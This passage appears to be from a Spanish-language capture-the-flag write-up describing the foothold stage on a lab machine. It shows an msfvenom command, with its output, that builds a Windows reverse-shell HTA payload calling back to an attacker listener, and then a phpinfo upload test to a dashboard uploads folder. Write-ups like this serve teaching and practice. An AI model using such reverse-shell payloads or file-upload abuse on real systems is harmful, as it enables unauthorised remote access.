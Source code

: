 # Foothold
Vamos a probar a subir un archivo .hta

Creamos el payload con `msfvenom`
```shell
$ msfvenom -p windows/shell_reverse_tcp LHOST=10.10.14.13 LPORT=443 -f hta-psh > shell.hta
[-] No platform was selected, choosing Msf::Module::Platform::Windows from the payload
[-] No arch selected, selecting arch: x86 from the payload
No encoder specified, outputting raw payload
Payload size: 324 bytes
Final size of hta-psh file: 7407 bytes
```

Pero al enviar el archivo no recibimos la shell...

Alternativamente podemos crear un archivo `info.php` 

```php
<?php
	phpinfo();
?>
```

Y al subirlo, podemos ver que el archivo existe en la ruta `/dashboard/uploads/info.php`
![Write-up Image](images/Screenshot_22.png)
